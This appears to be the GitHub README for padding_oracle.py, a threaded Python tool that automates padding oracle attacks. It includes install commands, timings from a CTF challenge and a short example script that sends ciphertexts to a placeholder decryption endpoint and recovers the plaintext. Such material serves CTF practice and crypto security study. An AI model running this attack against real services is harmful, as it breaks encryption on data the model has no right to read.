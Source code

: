 # padding_oracle.py

Extremely fast threaded [padding oracle](http://server.maojui.me/Crypto/Padding_oracle_attack/) automation script for Python 3.

## Install

Installing from PyPI:

```shell
pip3 install -U padding_oracle
```

Or, installing from GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Example

All you need is defining the **oracle function** to check whether the given cipher is correctly decrypted.

```python
#!/usr/bin/env python3

import requests, logging
from padding_oracle import *

url = 'http://some-website.com/decrypt'
sess = requests.Session()

def oracle(cipher):
    r = sess.post(url, data={'cipher': base64_encode(cipher)})
    assert 'SUCCESS' in r.text or 'FAILED' in r.text
    return 'SUCCESS' in r.text

cipher = b'[______IV______][___Block_1____][___Block_2____]'
block_size = 16
num_threads = 64

plaintext = padding_oracle(cipher, block_size, oracle, num_threads, log_level=logging.DEBUG)

print(remove_padding(plaintext).decode())
```
